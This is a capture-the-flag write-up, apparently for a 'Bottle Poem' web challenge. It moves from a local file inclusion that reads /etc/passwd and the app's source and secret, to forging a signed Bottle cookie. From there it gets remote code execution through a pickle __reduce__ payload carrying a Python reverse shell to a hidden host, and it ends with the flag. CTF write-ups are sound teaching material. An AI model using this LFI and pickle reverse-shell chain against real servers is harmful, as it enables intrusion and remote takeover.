 # wetuwn addwess

## Challenge

> Come and read poems in the bottle.<br>
> No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.

---

## Walkthrough

The challenges landing page lead us to an obvious LFI exploit at `/show?id=spring.txt`.

```
/show?id=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

`/etc/shadow` didn't work meaning the application wasn't running with superuser permission. I tried `/flag` but it wasn't going to be that easy.

Next I tried reading from `/proc/<PID>` to find more information about the process running the webserver. I found it running with a pid of 1.

```txt
/show?id=/proc/1/cmdline

python -u /app/app.py
```

Nice. Let's get the source code

```py
# /show?id=/app/app.py

# ...
from config.secret import sekai

@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
# ...
```

You can view the full file [here](./app.py) but the focus was clearly to exploit `/sign` to get admin permission. Fortunately the secret was imported from `config.secret`.

```py
# /show?id=/app/config/secret.py

sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Nice. To generate the right cookie I made my own bottle server.

```py
# ...
@route("/")
def index():
    sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
    value = {"name": "admin"}
    response.set_cookie("name", value, secret=sekai)
```

Copying this cookie to bottle poem's storage got me into admin! But it was useless...

![admin_panel.png](admin_panel.png)

Looking into bottle's source code I noticed that we can execute a `pickle.loads()` if we had the secret. Looks promising!

```py
def get_cookie(self, key, default=None, secret=None):
    value = self.cookies.get(key)
    if secret and value:
        dec = cookie_decode(value, secret)

def cookie_decode(data, key):
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg)) # <- looks like pickle!
```

For those unaware python pickling is vulnerable to RCE on decoding as it's not meant to be used with user controlled input.

I modified my bottle server to generate an RCE exploit cookie that I could pass into bottle poem.

```py
class RCE:
    def __reduce__(self):
        # I used python since we can guarantee it's installed on the system
        cmd = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ommited>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
        return os.system, (cmd,)

@route("/")
def index():
    value = RCE()
    response.set_cookie("name", value, secret=sekai)
```

Sure enough I passed it into bottle poem and gg.

![flag.png](flag.png)

---

## Solve

`SEKAI{W3lcome_To_Our_Bottle}`

